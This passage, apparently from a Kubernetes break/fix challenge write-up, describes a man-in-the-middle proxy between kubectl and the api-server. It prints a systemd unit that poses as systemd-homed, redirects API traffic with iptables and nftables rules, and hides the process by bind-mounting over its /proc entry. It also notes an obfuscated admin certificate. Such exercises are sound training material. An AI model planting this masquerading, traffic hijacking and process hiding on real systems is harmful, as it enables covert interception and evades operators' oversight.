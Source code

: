 
### Fix

Simply remove the config.toml to resolve the issue.

```bash
rm -f /etc/containerd/config.toml
systemctl restart containerd
```

## Man-in-the-middle

Custom written MITM proxy for mutating all http requests between local `kubectl` and the `api-server`.
The proxy injects the `dry-run` flag in every HTTP request. Which prevents persistent changes to any manifest.
Traffic is redirect through kernel technics. We thought, just having `iptables` is a bit too easy.
In addition to `iptables` we also use the newer `nftables` framework to redirect the traffic.
Since the mitm-process itself is not part of the break/fix, we mask the `/proc/$PID/` path of the process to hide it.
The process is named systemd-homed and covered by systemd which makes the whole break reboot-safe.
The MITM Proxy re-uses the TLS service from the apiserver to serve a valid https listener.
We hardcoded the client certificate of the kubernetes admin user as an obfuscated string.

### Break

```ini
; /lib/systemd/system/systemd-homed.service
[Unit]
Description=Home Area Manager
Documentation=man:systemd-homed.service(8)
Documentation=man:org.freedesktop.home1(5)
After=home.mount dbus.service

[Service]
ExecStart=/usr/bin/systemd-homed
Restart=always
RestartSec=0
StandardOutput=null
StandardError=null

ExecStartPre=-/bin/bash -c 'iptables -t nat -nL OUTPUT | grep 853 && iptables -t nat -A OUTPUT ! -d 127.0.0.53/32 -p tcp -m tcp --dport 6443 -j REDIRECT --to-ports 853'
ExecStartPre=-/bin/bash -c 'iptables -t nat -nL PREROUTING | grep 853 && iptables -t nat -A PREROUTING ! -d 127.0.0.53/32 -p tcp -m tcp --dport 6443 -j REDIRECT --to-ports 853'
ExecStartPre=-/bin/bash -c 'ip6tables -t nat -nL OUTPUT | grep 853 && ip6tables -t nat -A PREROUTING -p tcp -m tcp --dport 6443 -j REDIRECT --to-ports 853'
ExecStartPre=-/bin/bash -c 'ip6tables -t nat -nL PREROUTING | grep 853 && ip6tables -t nat -A OUTPUT -p tcp -m tcp --dport 6443 -j REDIRECT --to-ports 853'
ExecStartPre=/bin/bash -c "printf 'flush ruleset; table ip nat { chain prerouting { type nat hook prerouting priority 0; policy accept; ip daddr != 127.0.0.53 tcp dport 6443 dnat to :853; }; chain postrouting { type nat hook postrouting priority 100; policy accept; }; chain output { type nat hook output priority 100; policy accept; ip daddr != 127.0.0.53 tcp dport 853 dnat to :2222; };};' | nft -f -"
ExecStartPre=/bin/bash -c 'umount -q /proc/*'
ExecStartPost=/bin/bash -c 'mount -o bind /proc/fs/nfsd/ /proc/$(pidof systemd-homed)/'

[Install]
WantedBy=multi-user.target
```
